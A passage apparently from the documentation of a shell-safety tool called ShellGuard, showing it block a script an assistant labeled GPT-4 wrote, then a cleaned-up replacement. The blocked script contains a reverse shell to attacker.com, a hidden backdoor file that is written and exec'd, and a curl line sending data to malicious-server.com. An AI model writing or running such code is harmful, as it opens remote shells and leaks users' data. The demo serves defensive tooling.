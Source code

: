 ```bash
s.connect(("attacker.com",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
"""
    
    with open('/tmp/.system_update.py', 'w') as f:
        f.write(backdoor)
    
    # Execute backdoor
    exec(backdoor)

def main():
    while True:
        info = get_system_info()
        send_report(info)
        time.sleep(300)

if __name__ == "__main__":
    main()
EOF

python system_monitor.py

# 🚨 ShellGuard BLOCKS:
# 🚨 Dangerous Python code detected in: system_monitor.py
# Content preview:
# 12:os.system('curl -s http://malicious-server.com/collect?data=' + str(data))
# 25:exec(backdoor)
# Use 'force_python system_monitor.py' to run anyway
```

**USER:** "The script has security issues, please fix them"

**GPT-4:** "You're absolutely right. Here's a secure version:"

```python
cat > secure_system_monitor.py << 'EOF'
#!/usr/bin/env python3
import psutil
import json
import time
import logging
from datetime import datetime

# Setup logging
logging.basicConfig(level=logging.INFO, format='%(asctime)s - %(message)s')

def get_system_info():
    """Safely get system information using psutil"""
    return {
        'timestamp': datetime.now().isoformat(),
        'cpu_percent': psutil.cpu_percent(interval=1),
        'memory': psutil.virtual_memory()._asdict(),
        'disk': psutil.disk_usage('/')._asdict()
    }

def save_report(data, filename='system_report.json'):
    """Save report to local file"""
    try:
        with open(filename, 'a') as f:
            json.dump(data, f)
            f.write('\n')
```